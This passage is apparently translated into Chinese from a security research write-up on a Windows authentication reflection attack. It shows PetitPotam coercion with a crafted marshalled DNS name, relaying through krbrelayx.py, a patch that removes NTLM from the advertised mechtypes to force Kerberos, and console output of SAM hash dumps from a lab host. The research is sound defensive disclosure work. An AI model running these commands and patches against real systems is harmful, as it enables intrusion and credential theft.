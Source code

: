 作为一个小彩蛋，我们注意到可以注册单个 DNS 记录来入侵任何易受攻击的机器：localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  
。实际上，当从目标名称中剥离编组的目标信息时，只剩下 localhost  
，这意味着 msv1_0!SspIsTargetLocalhost  
 中的检查也会通过，无论机器的主机名是什么。  
## Kerberos 的情况如何？  
### Negotiate 工作流程  
  
在首次发现后，我们想知道 Kerberos 是否也受到影响。毕竟，如前所述，Kerberos 没有针对反射攻击的保护措施。因此，我们通过将 ntlmrelayx.py  
 替换为 krbrelayx.py  
 来执行相同的攻击：  
```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[-] No negTokenInit sent by client
```  
  
有趣的是，尽管我们提供了 DNS 记录作为监听主机，且 krbrelayx.py  
 将 Kerberos 作为其认证协议之一进行宣传，但最终协商的却是 NTLM 认证。原因很简单，这与 Negotiate 认证包的工作机制有关：如果远程服务器同时支持 Kerberos 和 NTLM（krbrelayx.py  
 就是这种情况），并且客户端检测到目标是当前机器，那么就会使用 NTLM（以执行本地 NTLM 认证）。为了确定目标是否与客户端所在机器相同，系统会调用 lsasrv!NegpIsLoopback  
 函数。与 msv1_0!SspIsTargetLocalhost  
 函数类似，它会将目标名称与 localhost、机器的 FQDN 及其主机名进行比较。在我们的案例中，目标名称等于主机名，因此 lsasrv!NegpIsLoopback  
 返回 true，从而协商使用 NTLM。要强制使用 Kerberos，只需从宣传的类型中移除 NTLM mechtype：  
```
File: krbrelayx/lib/servers/smbrelayserver.py
156:         blob['tokenOid'] = '1.3.6.1.5.5.2'
157:         blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
158:                                                        MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
159:                                                        MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
```  
  
应用此补丁后，中继攻击同样奏效！  
```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: srv1.asgard.local
```  
  